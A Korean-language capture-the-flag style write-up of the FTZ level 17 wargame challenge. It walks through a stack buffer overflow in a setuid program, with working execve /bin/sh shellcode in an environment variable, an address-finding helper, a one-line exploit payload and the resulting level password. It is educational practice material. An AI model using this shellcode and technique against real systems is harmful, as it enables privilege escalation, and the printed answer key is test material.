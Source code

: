 # FTZ 17  
## 문제 설명  
attackme 프로그램을 공격하자. attackme 소스코드는 hint에 적혀있다. 소스코드는 아래와 같다.  
```
#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{
  int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```  
attackme 파일의 소유자는 level18이다. => setreuid(3098,3098) 코드때문에 그렇다!  
buf는 20 byte인데 fgets(buf, 48, stdin);에서 48byte나 읽어들여오니 bof 공격을 수행하면 되겠다!  
call 함수 포인터에 printit가 아니라 쉘 코드를 실행하는 payload 주소를 넣어주면 될 것 같다!  

## 문제 풀이  

1. gdb로 스택 구조를 파악하자!  
<img width="303" alt="1" src="https://user-images.githubusercontent.com/46364778/89731868-91369380-da85-11ea-99f2-ef99fb1a2456.PNG">  

* ```sub esp, 0x38``` : 0x38=56byte 크기를 스택에 할당한다.  
* ```mov DWORD PTR [ebp-16], 0x8048490```  
```mov eax, DWORD PTR [ebp-16]```  
```call eax```: ebp-16 위치에는 call 함수 포인터가 있고 0x8048490은 printit 함수의 주소인 것 같다.  

* ```lea eax, [ebp-56]```  
```push eax```  
```call <fgets>``` : buf에 56byte를 할당하고 fgets 함수를 통해 버퍼를 채운다!  
그럼 스택구조는 아래와 같다! ~~정확한 dummy파악은 어케 하는지 알지?ㅎ..~~  

|ret [4]|
|:---:|
|sfp [4]|
|dummy [8]|
|crap [4]|
|call [4]|
|dummy [20]|
|buf [20]|

2. 스택 구조 파악했으니 이제 call에 공격 payload의 주소를 넣어주면 된다!  
그러기위해 공격 payload를 환경변수에 넣자.  
```
export SHELL=$(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80")')
```  

그리고 환경변수의 주소를 얻자.  
```
// getenv.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[1]){
	printf("address = %p\n", getenv("SHELL"););
}
```  

```
gcc -o getenv getenv.c
./getenv
```  

```address = 0xbffffbde``` 라는 결과를 얻을 수 있다.  

3. 이제 공격을 해보자!  
40byte를 아무값이나 채우고 call 포인터 변수에 환경변수 주소값을 넣으면 된다!  

```
(python -c 'print "\x90"*40 + "\xde\xfb\xff\xbf"'; cat) | ./attackme
```  

4. level18의 비밀번호는 "why did you do it"  

### 외전  
다른 공격기법으로 할 수 있을까?  
```fgets(buf,48,stdin);```
**48byte밖에 공격이 안되기 때문에 RTL을 이용하는 공격은 불가능하다!**  
환경변수를 이용한 공격은 /bin/sh(4)밖에 소모되지 않지만, RTL 공격은 system(4) + exit(4) + /bin/sh(4) 총 12byte나 소모되기 때문이다.  

## 그 외  
